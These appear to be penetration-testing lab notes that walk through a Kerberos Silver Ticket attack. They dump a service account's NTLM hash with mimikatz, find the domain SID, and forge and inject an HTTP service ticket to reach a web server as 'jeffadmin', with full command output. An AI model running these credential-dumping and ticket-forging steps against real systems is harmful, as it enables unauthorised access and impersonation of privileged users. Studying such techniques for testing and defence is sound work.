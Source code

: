 # Silver Tickets

Gain access to specific services

## Explanation

With a service account password or its associated NTLM hash gathered from previous techniques, we can forge our own service ticket to access a target resource. Note that this attack is defeated by Privileged Account Certificate (PAC) validation.

In general we need the following three pieces of information to create a silver ticket:

- SPN password hash
- Domain SID
- Target SPN

In the following example, we will attempt to access the resource of the HTTP SPN mapped to `iis_service`

```
PS C:\Users\jeff> iwr -UseDefaultCredentials http://web04
iwr :
401 - Unauthorized: Access is denied due to invalid credentials.
Server Error

  401 - Unauthorized: Access is denied due to invalid credentials.
  You do not have permission to view this directory or page using the credentials that you supplied.

At line:1 char:1
+ iwr -UseBasicParsing -UseDefaultCredentials http://web04
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (System.Net.HttpWebRequest:HttpWebRequest) [Invoke-WebRequest], WebExc
   eption
    + FullyQualifiedErrorId : WebCmdletWebResponseException,Microsoft.PowerShell.Commands.InvokeWebRequestCommand
```

Here we can see we cannot currently access the web page as `jeff`. Lets starting collecting the information needed to forge a silver ticket

We can start by pulling the NTLM hash with `mimikatz`

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 1147751 (00000000:00118367)
Session           : Service from 0
User Name         : iis_service
Domain            : CORP
Logon Server      : DC1
Logon Time        : 9/14/2022 4:52:14 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1109
        msv :
         [00000003] Primary
         * Username : iis_service
         * Domain   : CORP
         * NTLM     : 4d28cf5252d39971419580a51484ca09 <-- This is what we are looking for
         * SHA1     : ad321732afe417ebbd24d5c098f986c07872f312
         * DPAPI    : 1210259a27882fac52cf7c679ecf4443
...
```

We can now enter `whoami /user` to get the SID of the current user

```
PS C:\Users\jeff> whoami /user

USER INFORMATION
----------------

User Name SID
========= =============================================
corp\jeff S-1-5-21-1987370270-658905905-1781884369-1105
```

Since we are only interested in the domain SID, we'll omit the RID of the user (excluding `-1105`)

```
S-1-5-21-1987370270-658905905-1781884369
```

We can now use `mimikatz` `kerberos::golden` module to forge the service ticket. This module provides the capabilities for creating golden and silver tickets alike. We will supply `mimikatz` with the arguments

- `/sid:S-1-5-21-1987370270-658905905-1781884369` The domain SID
- `/domain:corp.com` The domain name
- `/ptt` Allows us to inject the forget ticket into the memory of the machine we execute the command on
- `/target:web04.corp.com` The target where the SPN runs
- `/service:http` The SPN protocol
- `/rc4:4d28cf5252d39971419580a51484ca09` The NTLM hash of the SPN
- `/user:jeffadmin` An existing user that will be set in the forged ticket

```
mimikatz # kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
User      : jeffadmin
Domain    : corp.com (CORP)
SID       : S-1-5-21-1987370270-658905905-1781884369
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 4d28cf5252d39971419580a51484ca09 - rc4_hmac_nt
Service   : http
Target    : web04.corp.com
Lifetime  : 9/14/2022 4:37:32 AM ; 9/11/2032 4:37:32 AM ; 9/11/2032 4:37:32 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'jeffadmin @ corp.com' successfully submitted for current session

mimikatz # exit
Bye!
```

We can now use `klist` to view the ticket we just created

```
PS C:\Tools> klist

Current LogonId is 0:0xa04cc

Cached Tickets: (1)

#0>     Client: jeffadmin @ corp.com
        Server: http/web04.corp.com @ corp.com
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
        Start Time: 9/14/2022 4:37:32 (local)
        End Time:   9/11/2032 4:37:32 (local)
        Renew Time: 9/11/2032 4:37:32 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0
        Kdc Called:
```

We can now access the service without access to a plaintext password or pasword hash of the user:

```
PS C:\Tools> iwr -UseDefaultCredentials http://web04

StatusCode        : 200
StatusDescription : OK
Content           : <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
                    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
                    <html xmlns="http://www.w3.org/1999/xhtml">
                    <head>
                    <meta http-equiv="Content-Type" cont...
RawContent        : HTTP/1.1 200 OK
                    Persistent-Auth: true
                    Accept-Ranges: bytes
                    Content-Length: 703
                    Content-Type: text/html
                    Date: Wed, 14 Sep 2022 11:37:39 GMT
                    ETag: "b752f823fc8d81:0"
                    Last-Modified: Wed, 14 Sep 20...
Forms             :
Headers           : {[Persistent-Auth, true], [Accept-Ranges, bytes], [Content-Length, 703], [Content-Type,
                    text/html]...}
Images            : {}
InputFields       : {}
Links             : {@{outerHTML=<a href="http://go.microsoft.com/fwlink/?linkid=66138&amp;clcid=0x409"><img
                    src="iisstart.png" alt="IIS" width="960" height="600" /></a>; tagName=A;
                    href=http://go.microsoft.com/fwlink/?linkid=66138&amp;clcid=0x409}}
ParsedHtml        :
RawContentLength  : 703
```
